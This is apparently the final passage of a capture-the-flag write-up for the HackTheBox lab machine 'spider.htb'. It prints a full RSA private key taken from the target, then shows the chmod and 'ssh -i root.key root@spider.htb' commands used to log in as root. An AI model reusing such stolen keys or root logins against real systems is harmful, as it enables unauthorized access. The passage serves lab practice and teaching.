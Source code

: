 ![[rootssh.png]]
```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAl/dn2XpJQuIw49CVNdAgdeO5WZ47tZDYZ+7tXD8Q5tfqmyxq
gsgQskHffuzjq8v/q4aBfm6lQSn47G8foq0gQ1DvuZkWFAATvTjliXuE7gLcItPt
iFtbg7RQV/xaTwAmdRfRLb7x63TG6mZDRkvFvGfihWqAnkuJNqoVJclgIXLuwUvk
4d3/Vo/MdEUb02ha7Rw9oHSYKR4pIgv4mDwxGGL+fwo6hFNCZ+YK96wMlJc3vo5Z
EgkdKXy3RnLKvtxjpIlfmAZGu0T+RX1GlmoPDqoDWRbWU+wdbES35vqxH0uM5WUh
vPt5ZDGiKID4Tft57udHxPiSD6YBhLT5ooHfFQIDAQABAoIBAFxB9Acg6Vc0kO/N
krhfyUUo4j7ZBHDfJbI7aFinZPBwRtq75VHOeexud2vMDxAeQfJ1Lyp9q8/a1mdb
sz4EkuCrQ05O9QthXJp0700+8t24WMLAHKW6qN1VW61+46iwc6iEtBZspNwIQjbN
rKwBlmMiQnAyzzDKtNu9+Ca/kZ/cAjLpz3m1NW7X//rcDL8kBGs8RfuHqz/R4R7e
HtCvxuXOFnyo/I+A3j1dPHoc5UH56g1W82NwTCbtCfMfeUsUOByLcg3yEypClO/M
s7pWQ1e4m27/NmU7R/cslc03YFQxow+CIbdd59dBKTZKErdiMd49WiZSxizL7Rdt
WBTACsUCgYEAyU9azupb71YnGQVLpdTOzoTD6ReZlbDGeqz4BD5xzbkDj7MOT5Dy
R335NRBf7EJC0ODXNVSY+4vEXqMTx9eTxpMtsP6u0WvIYwy9C7K/wCz+WXNV0zc0
kcSQH/Yfkd2jADkMxHXkz9THXCChOfEt7IUmNSM2VBKb1xBMkuLXQbMCgYEAwUBS
FhRNrIB3os7qYayE+XrGVdx/KXcKva6zn20YktWYlH2HLfXcFQQdr30cPxxBSriS
BAKYcdFXSUQDPJ1/qE21OvDLmJFu4Xs7ZdGG8o5v8JmF6TLTwi0Vi45g38DJagEl
w42zV3vV7bsAhQsMvd3igLEoDFt34jO9nQv9KBcCgYEAk8eLVAY7AxFtljKK++ui
/Xv9DWnjtz2UFo5Pa14j0O+Wq7C4OrSfBth1Tvz8TcW+ovPLSD0YKODLgOWaKcQZ
mVaF3j64OsgyzHOXe7T2iq788NF4GZuXHcL8Qlo9hqj7dbhrpPUeyWrcBsd1U8G3
AsAj8jItOb6HZHN0owefGX0CgYAICQmgu2VjZ9ARp/Lc7tR0nyNCDLII4ldC/dGg
LmQYLuNyQSnuwktNYGdvlY8oHJ+mYLhJjGYUTXUIqdhMm+vj7p87fSmqBVoL7BjT
Kfwnd761zVxhDuj5KPC9ZcUnaJe3XabZU7oCSDbj9KOX5Ja6ClDRswwMP31jnW0j
64yyLwKBgBkRFxxuGkB9IMmcN19zMWA6akE0/jD6c/51IRx9lyeOmWFPqitNenWK
teYjUjFTLgoi8MSTPAVufpdQV4128HuMbMLVpHYOVWKH/noFetpTE2uFStsNrMD8
vEgG/fMJ9XmHVsPePviZBfrnszhP77sgCXX8Grhx9GlVMUdxeo+j
-----END RSA PRIVATE KEY-----
```



After copying the key to our machine we can use it to ssh to the system as root :
 #### code-chmod on root key
 ```bash
 chmod 600 root.key
 ```
 
 Then we use the ``root key`` to have an interactive shell after ssh alongside root
 #### code-ssh@chiv
 ```bash
 ssh -i root.key root@spider.htb
 ```
 
 ![[fanally.png]]
 
    -------------------------END successful attack @leshack98----------------------
 
